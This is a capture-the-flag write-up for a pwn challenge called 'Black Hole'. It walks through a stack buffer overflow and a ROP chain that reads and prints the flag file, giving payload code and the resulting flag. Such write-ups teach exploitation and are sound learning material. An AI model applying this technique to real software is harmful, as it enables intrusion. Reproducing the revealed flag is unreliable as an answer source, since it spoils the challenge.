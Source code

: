 # Black Hole


## Category
PWN
## Points:
200
## Description:
Dave took a nap while flying home last Tuesday. When he woke up he was stuck. Save Dave
NOTE: Challenge is running in an Ubuntu 18.04 docker container.
## Creator:
nsnc

## Solve

In this program, you are trapped by a black hole, and need to find a way to escape it.
```
Throttle: MAX
Gravity: 10
O                         =>                       |
```

There is a buffer overflow when inputting the captain's name, and since there is no canary and PIE is disabled, it is easy to exploit.
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The tricky thing about this challenge is that the buffer overflow will overwrite the counter pointing to the offset where the next character will be written to. Writing the correct value there will prevent any infinite loops or unexpected behavior:
```python
payload = b"A" * 140
payload += p64(
    0x90
)  # Overwriting a counter. Must be the correct value to pervent loops or crashes.
```

After that, we can create a simple ropchain using availible gadgets.
```python
payload += p64(pop_rdi)  # Sets up argument to readfile
payload += p64(flag_address)  # Pointer to './flag.txt'
payload += p64(read_file) # Address of readfile (returns a pointer to the content of a file in rax)
payload += p64(print_rax) # mov rdi, rax; call puts
```

```
Throttle: 3
Gravity: 17
O     =>                                           |
> You lose AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb8!
Sorry, you died!
pctf{th1s_l1ttle_man0uver_just_c0st_us_51_y34r5}
```
